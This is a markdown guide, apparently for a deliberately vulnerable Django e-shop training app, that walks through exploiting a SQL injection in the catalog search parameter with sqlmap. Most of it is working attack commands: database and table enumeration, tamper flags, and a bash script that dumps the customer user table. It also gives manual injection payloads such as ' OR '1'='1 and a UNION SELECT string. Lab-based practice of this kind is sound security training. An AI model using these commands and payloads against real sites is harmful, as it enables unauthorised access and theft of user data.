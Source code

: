 # SQLMap Testing Guide for E-Shop SQL Injection

## Prerequisites
1. Install SQLMap: `sudo apt-get install sqlmap` (Linux) or download from https://sqlmap.org/
2. Make sure the Django server is running: `python manage.py runserver`
3. You need to be logged in to access the catalog page

## Step 1: Get Session Cookie
First, login to the application and get your session cookie:

1. Open browser and go to http://127.0.0.1:8000/login/
2. Login with credentials (e.g., admin/admin123 or test/test123)
3. Open Developer Tools (F12) → Application/Storage → Cookies
4. Copy the `sessionid` cookie value

## Step 2: Basic SQLMap Test

```bash
# Basic detection with session cookie
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID_HERE" \
       --batch \
       --risk=3 \
       --level=5
```

## Step 3: Enumerate Databases

```bash
# List all databases
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID_HERE" \
       --batch \
       --dbs
```

## Step 4: Enumerate Tables

```bash
# List tables in current database
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID_HERE" \
       --batch \
       --tables
```

## Step 5: Dump User Data

```bash
# Dump the user table
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID_HERE" \
       --batch \
       -T eshop_customuser \
       --dump
```

## Step 6: Advanced Options

```bash
# Full exploitation with all techniques
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID_HERE" \
       --batch \
       --risk=3 \
       --level=5 \
       --threads=10 \
       --technique=BEUQ \
       --dbms=SQLite \
       --tamper=space2comment \
       -v 3
```

## Technique Flags Explained
- `B` = Boolean-based blind
- `E` = Error-based
- `U` = Union query-based
- `Q` = Inline queries

## Common SQLMap Options for This Vulnerability

```bash
# Specify the vulnerable parameter explicitly
sqlmap -u "http://127.0.0.1:8000/" \
       -p "q" \
       --cookie="sessionid=YOUR_SESSION_ID_HERE" \
       --batch

# Use specific payload prefix/suffix for LIKE clause
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID_HERE" \
       --prefix="%'" \
       --suffix="OR '%'='" \
       --batch

# Force UNION technique with specific column count
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID_HERE" \
       --technique=U \
       --union-cols=6 \
       --batch
```

## Automated Script

Create a file `sqlmap_test.sh`:

```bash
#!/bin/bash
# Replace with your actual session ID
SESSION_ID="YOUR_SESSION_ID_HERE"
TARGET_URL="http://127.0.0.1:8000/?q=test"

echo "=== SQLMap Automated Test ==="
echo "Target: $TARGET_URL"
echo ""

# Test 1: Basic detection
echo "[*] Testing for SQL injection..."
sqlmap -u "$TARGET_URL" --cookie="sessionid=$SESSION_ID" --batch --smart

# Test 2: Get database info
echo "[*] Getting database information..."
sqlmap -u "$TARGET_URL" --cookie="sessionid=$SESSION_ID" --batch --current-db --current-user

# Test 3: Enumerate tables
echo "[*] Enumerating tables..."
sqlmap -u "$TARGET_URL" --cookie="sessionid=$SESSION_ID" --batch --tables

# Test 4: Dump interesting tables
echo "[*] Attempting to dump user table..."
sqlmap -u "$TARGET_URL" --cookie="sessionid=$SESSION_ID" --batch -T eshop_customuser --dump

echo "[*] Testing complete!"
```

## Expected Output
When SQLMap successfully detects the vulnerability, you should see:
```
[*] the back-end DBMS is SQLite
[*] fetched data logged to text files under '/home/user/.sqlmap/output/127.0.0.1'

Parameter: q (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: q=' OR '1'='1

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: q=' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL--
```

## Troubleshooting

### If SQLMap doesn't find the vulnerability:
1. Make sure you're using a valid session cookie
2. Try increasing risk and level: `--risk=3 --level=5`
3. Specify the DBMS: `--dbms=SQLite`
4. Use verbose mode to see what's happening: `-v 3`

### If you get authentication errors:
1. Your session may have expired - login again and get a new sessionid
2. Try adding CSRF token: `--csrf-token=csrftoken`

### For the specific LIKE clause issue:
Since the query uses `LIKE '%%input%%'`, you might need:
```bash
sqlmap -u "http://127.0.0.1:8000/?q=test" \
       --cookie="sessionid=$SESSION_ID" \
       --prefix="%'" \
       --suffix="--" \
       --tamper=space2comment \
       --batch
```

## Manual Verification
Before running SQLMap, verify the vulnerability manually:
1. Login to the application
2. Go to catalog page
3. In search box, enter: `' OR '1'='1`
4. If you see all products, the injection works

Then SQLMap should be able to exploit it automatically.